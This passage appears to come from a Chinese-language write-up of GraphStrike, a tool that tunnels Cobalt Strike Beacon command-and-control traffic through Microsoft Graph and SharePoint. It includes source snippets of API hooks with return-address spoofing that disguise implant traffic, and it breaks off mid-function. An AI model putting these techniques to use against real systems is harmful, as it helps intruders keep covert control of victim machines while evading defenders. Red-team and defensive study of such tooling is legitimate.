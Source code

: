 ```plain
        hResult =  ( HINTERNET )SPOOF( pMemAddrs->Api.net.HttpOpenRequestA, 
                                        pMemAddrs->Api.net.hNet, 
                                        pMemAddrs->Api.net.size, 
                                        hInternet, 
                                        C_PTR( lpszVerb ), 
                                        C_PTR( lpszObjectName ), 
                                        C_PTR( lpszVersion ), 
                                        C_PTR( lpszReferrer ), 
                                        C_PTR( lplpszAcceptTypes ), 
                                        C_PTR( U_PTR( dwFlags ) ),
                                        C_PTR( U_PTR( dwContext ) ) );

    return hResult;
};
```

在代码的第 18 行，我们将检查 Beacon 传递给 HttpOpenRequestA\_Hook 的 "lpszVerb "变量，以确定对 HttpOpenRequestA 的调用是 http-get 循环的一部分，还是 http-post 循环的一部分。我们在配置文件中为 Beacon 的 http-get 和 http-post 请求设置了动词，因此我们可以根据 Beacon 尝试使用的动词来判断这是哪种请求。这种判断在第 27 行使用，请求类型决定了在真正调用 HttpOpenRequestA 时作为参数使用的 "verb "和 "uri"。在这里，我们利用了对 Beacon 提供的参数的控制，使用了在 SharePoint 中首次创建文件时组装的上传 URI，并在 http-post 请求中用 "PUT "代替了 "POST"，这样我们就可以使用 Graph API 的 Upload 方法。真正的 API 最终会在第 39 行调用，使用我们自定义的 "verb "和 "uri "参数代替 Beacon 指定的原始 "lpszVerb "和 "lpszObjectName "参数。

GraphLdr 还支持使用正常的 Cobalt Strike HTTPS Beacon。在导入 "graphstrike.cna" 时，Cobalt Strike 创建的所有 Beacon 都将使用 GraphLdr 作为 Beacon 的 UDRL，但只有当 Beacon 的主机设置为 "graph.microsoft.com "时，我们才真正需要在 GraphLdr 中完成所有额外工作。至于 Beacon 是 GraphStrike 还是标准 HTTPS，我们将在 InternetConnectA\_Hook 函数中通过检查 Beacon 指定的 "lpszServerName "参数来确定。其结果将在上述代码段的第 15 行中使用，在该行中，我们将根据此布尔值进行分支。对于普通 HTTPS Beacon，真正的 API 会在第 54 行调用，并使用 Beacon 发送的所有未经修改的原始参数（尽管我们仍在使用 AceLdr 的返回地址欺骗功能）。

-   虽然 GraphStrike 支持在使用 GraphStrike 信号的同时使用标准 HTTPS 信号，但 Cobalt Strike 配置文件还不够灵活，因此这一点并不实用。4.9 版本增加了主机配置文件，但这些配置文件只允许自定义 URI、标头和参数，还不支持按主机指定 Beacon 元数据和会话 ID 的发送方式，也不支持 TS 的回复方式。这就导致标准 HTTPS Beacon 使用了前面 "Beacon 数据和配置文件语言 "部分讨论过的未加混淆的选项。我已经与 Cobalt Strike 团队讨论过这个问题，他们希望在 2024 年的某个时候扩展对这种自定义级别的支持。

# 同步与异步

我已经详细讨论了 GraphStrike 的通信模型，本质上是异步的以及随之而来的挑战，但还有一个问题必须讨论和缓解。 Beacon 不断向 TS 任务文件发出 GET 请求以下载任务，GraphStrike 服务器类似地向 Beacon 输出文件发出 GET 请求以下载输出；无论该文件中存储了什么，他们都会采取并采取行动。这提出了两种问题场景：

1.  在 Cobalt Strike 中发出命令并上传到 TS 任务分配文件。 Beacon 下载命令，运行它，然后发送它的输出。当 Beacon 完成休眠后，它会再次从 TS 任务文件下载并运行相同的命令，因为 Cobalt Strike 没有发出额外的命令来“擦除”任务文件。
2.  在另一方成功下载第一次上传的数据之前，Beacon 或 GraphStrike 服务器会两次上传到 SharePoint 中各自的文件。这会导致数据丢失并破坏诸如依赖于来回顺序数据交换的 SOCKS 代理之类的功能。

幸运的是，对于这两种情况都有一个单一的解决方案。当 Beacon 向 TS 任务文件发出 GET 请求并返回数据时，会重复调用InternetReadFile，直到没有更多数据可供读取。当然，因为我们已经挂钩了这个 API，所以我们的自定义函数会被调用，其中我们会等到读取所有响应数据，然后再将空白文件上传到 TS 任务文件。这可以在以下代码片段的第 32 行看到，其中调用了“MakeWebRequest”。请注意“httpGetUri”和“PUT\_VERB”一起使用的独特组合：

```plain
SECTION( D ) BOOL InternetReadFile_Hook( HINTERNET hFile, 
                                          LPVOID lpBuffer, 
                                          DWORD dwNumberOfBytesToRead, 
                                          LPDWORD lpdwNumberOfBytesRead )
{
    BOOL bResult = FALSE;

    // Resolve API's
    struct MemAddrs* pMemAddrs = *(struct MemAddrs**)((PMEMADDR) OFFSET ( MemAddr ) )->address;

    // Call InternetReadFile
    bResult = ( BOOL )U_PTR( SPOOF( pMemAddrs->Api.net.InternetReadFile, 
                                     pMemAddrs->Api.net.hNet, 
                                     pMemAddrs->Api.net.size, 
                                     hFile, 
                                     C_PTR ( lpBuffer ), 
                                     C_PTR( U_PTR ( dwNumberOfBytesToRead ) ), 
```
